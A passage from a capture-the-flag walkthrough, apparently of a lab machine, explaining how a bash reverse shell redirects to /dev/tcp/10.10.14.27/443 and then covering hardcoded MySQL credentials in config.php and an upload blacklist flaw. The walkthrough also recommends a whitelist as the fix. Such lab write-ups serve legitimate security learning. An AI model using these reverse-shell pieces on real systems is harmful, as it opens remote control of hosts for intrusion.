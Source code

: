 -   **Redirection Operators**:
    -   `>&`
        -   Redirects both standard output `stdout` and standard error `stderr` to the target in this case, our attack host, `/dev/tcp/10.10.14.27/443`.

    -   `/dev/tcp/`
        -   This is a special file in Linux systems that allows network communication. By using `/dev/tcp/` with an IP address and port `10.10.14.27:443`, the shell sends its output to our attack host at that IP and port.
        -   This essentially establishes a TCP connection to our attack machine `10.10.14.27` on port `443`.

    -   `0>&1`:
        -   Redirects standard input `stdin` from the same file descriptor as standard output `stdout`.
        -   This allows the shell to receive commands from our attack machine and execute them.


### Finding Mysql Creds in `config.php`: {#finding-mysql-creds-in-config-dot-php}

-   I check the `config.php` file in `/var/www/html` &amp; find the creds for the msql instance hardcoded in the file:
    -   {{< figure src="/ox-hugo/2024-10-02-073440_.png" >}}
    -   We know there is a db called `hospital` too, so this is worth checking out.


### Understanding the Upload Mechansim: {#understanding-the-upload-mechansim}

-   **Uploads Folder**:
    -   I check the uploads folder &amp; as suspected it is now empty, leading me to believe there is some sort cron job clearing these files.
        -   {{< figure src="/ox-hugo/2024-10-02-073734_.png" >}}
        -   This is interesting find though as it means cron jobs are running, so that is something we should enumerate further.

-   **Reading** `upload.php`
    -   It's always interesting to look at the logic behind upload mechanisms once we exploit them, I find as a means to learn.
        -   Looking at the code we can see they have opted for a blacklist approach to extensions, black-lists can work however as we have seen just missing one extension render them useless. Defenders have to get it right 100% of the time, as attackers we only need to be right once. A better approach would be to have a white-list of extensions, so that the upload page only accepts uploads for say `.pdf` files. This would eliminate this attack vector and also be far easier to maintain from an administration point of view.
            -   {{< figure src="/ox-hugo/2024-10-02-074053_.png" >}}


### Trying to connect to the mysql instance: {#trying-to-connect-to-the-mysql-instance}

-   I verify the `mysql` server is running &amp; accessible from the VM (it has to be as it's not running on the bare-metal host)
    -   `netsat -tuln`
        -   {{< figure src="/ox-hugo/2024-10-02-091747_.png" >}}
-   I try various ways to initiate a connection to it but each time it fails in some way:
    -   {{< figure src="/ox-hugo/2024-10-02-091905_.png" >}}
    -   {{< figure src="/ox-hugo/2024-10-02-092112_.png" >}}
        -   These are only a few of many different attempts &amp; ways I tried to use to connect to the `mysql` instance, however none of them worked.
